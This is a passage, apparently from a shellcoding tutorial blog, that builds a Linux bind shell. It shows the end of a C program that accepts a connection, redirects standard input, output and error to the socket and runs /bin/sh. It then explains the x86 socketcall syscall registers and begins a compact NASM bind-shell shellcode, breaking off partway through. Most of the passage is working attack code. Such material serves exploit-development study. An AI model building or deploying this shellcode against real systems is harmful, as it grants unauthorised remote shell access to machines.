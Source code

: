 ```cpp
    client_sockid = accept(host_sockid, NULL, NULL);  
  
    // Duplicate file descriptors for STDIN, STDOUT and STDERR  
    dup2(client_sockid, 0);  
    dup2(client_sockid, 1);  
    dup2(client_sockid, 2);  
  
    // Execute /bin/sh  
    execve("/bin/sh", NULL, NULL);  
    close(host_sockid);  
      
    return 0;  
}  
```  

  
This code lacks error checking and shouldn't be used as is, for a more robust code, check my [sockets](https://github.com/abatchy17/sockets) repo.  
  

### Quick break down:

1\. Create socket  
2\. Bind socket to a local port  
3\. Listen for incoming connections  
4\. Accept incoming connection  
5\. Redirect `STDIN`,`STDOUT` and `STDERR` to newly created socket from client.  
6\. Spawn the shell.  
  

## Converting module to assembly

For socket programming through syscalls you'll need to make use of three
registers:  
1\. `EAX` should always contain 0x66, which is the number of `socketcall()` defined in the linux headers.  
2\. `EBX` should contain the call ID for the specific socket function you want to execute, which is defined in /usr/include/linux/net.h  
3\. `ECX` contains a pointer to the arguments.  

---

[![](http://i.imgur.com/OrTXm31.png)](http://i.imgur.com/OrTXm31.png)

```nasm
global _start  
section .text  
  
_start:  
    ; Socket functions should be accessed through socketcall()  
    ; References:  
    ;   1. http://man7.org/linux/man-pages/man2/socketcall.2.html  
    ;   2. http://lxr.free-electrons.com/source/net/socket.c?v=2.6.35#L2210  
    ; Call ids are defined in /usr/include/linux/net.h and should be put in EBX  
  
    ;  
    ; socket(PF_INET, SOCK_STREAM, IPPROTO_IP)  
    ;  
    push byte 0x66      ; socketcall()  
    pop eax             ; EAX = 0x66  
    cdq                 ; EDX = 0x0 | Saves a byte  
    xor ebx, ebx  
    inc ebx             ; EBX = 0x1 | #define SYS_SOCKET 1  
                        ; saves a byte instead of mov bl, 1  
    push edx            ; zeroed out earlier  
                        ; protocol = 0  
```